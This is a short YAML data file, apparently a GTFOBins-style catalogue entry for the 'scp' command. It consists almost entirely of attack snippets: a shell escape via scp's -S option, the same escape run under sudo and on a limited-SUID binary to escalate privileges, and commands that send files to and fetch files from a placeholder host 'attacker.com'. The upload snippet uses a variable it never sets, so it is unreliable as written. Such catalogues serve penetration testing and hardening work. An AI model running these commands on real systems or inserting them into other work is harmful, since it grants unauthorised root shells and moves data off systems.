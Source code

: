 functions:
  shell:
    - code: |
        TF=$(mktemp)
        echo 'sh 0<&2 1>&2' > $TF
        chmod +x "$TF"
        scp -S $TF x y:
  file-upload:
    - description: Send local file to a SSH server.
      code: |
        RPATH=user@attacker.com:~/file_to_save
        LPATH=file_to_send
        scp $LFILE $RPATH
  file-download:
    - description: Fetch a remote file from a SSH server.
      code: |
        RPATH=user@attacker.com:~/file_to_get
        LFILE=file_to_save
        scp $RPATH $LFILE
  sudo:
    - code: |
        TF=$(mktemp)
        echo 'sh 0<&2 1>&2' > $TF
        chmod +x "$TF"
        sudo scp -S $TF x y:
  limited-suid:
    - code: |
        TF=$(mktemp)
        echo 'sh 0<&2 1>&2' > $TF
        chmod +x "$TF"
        ./scp -S $TF a b:
---
